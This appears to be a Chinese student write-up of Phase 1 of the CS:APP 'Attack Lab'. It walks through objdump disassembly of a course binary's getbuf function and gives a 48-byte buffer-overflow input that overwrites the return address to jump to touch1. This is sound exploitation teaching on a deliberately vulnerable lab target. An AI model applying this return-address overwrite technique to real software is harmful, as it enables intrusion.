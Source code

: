 # Attack Lab

确保先阅读并理解了CS:APPe3的**3.10.3**和**3.10.4**

先反编译:

```bash
objdump -d ctarget > ctarget.asm
objdump -d rtarget > rtarget.asm
```

最后确保仔细阅读官网的`writeup`，查看每个阶段需要做什么。

# Part 1

先明白函数栈的生长方向。ret指令的作用。push指令的作用。%rsp和%rip的作用。

能够使用gdb和objdump指令。

code-injection攻击只适合这种，没有`栈随机化`和`限定可执行代码内存范围`的情况

## Phase 1

第一个阶段很简单，只要先查看给函数`getbuf`分配了多少栈空间，利用缓冲区溢出，修改`ret`指令的返回地址(上一个栈帧的栈顶)就行。

```nasm
00000000004017a8 <getbuf>:
  4017a8: 48 83 ec 28                  	subq	$0x28, %rsp
  4017ac: 48 89 e7                     	movq	%rsp, %rdi
  4017af: e8 8c 02 00 00               	callq	0x401a40 <Gets>
  4017b4: b8 01 00 00 00               	movl	$0x1, %eax
  4017b9: 48 83 c4 28                  	addq	$0x28, %rsp
  4017bd: c3                           	retq
  4017be: 90                           	nop
  4017bf: 90                           	nop

00000000004017c0 <touch1>:
```

给`getbuf`函数分配了`0x28`Byte的空间，也就是40Bytes

输入48Bytes，最后一个8Byte设定为`touch1`函数的地址就行。

注意是小端存储。

```text
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00     # 到这里填充完getbuf的栈帧
c0 17 40 00 00 00 00 00     # 这里篡改了ret的返回函数地址
```

我存储为`phase1.txt`
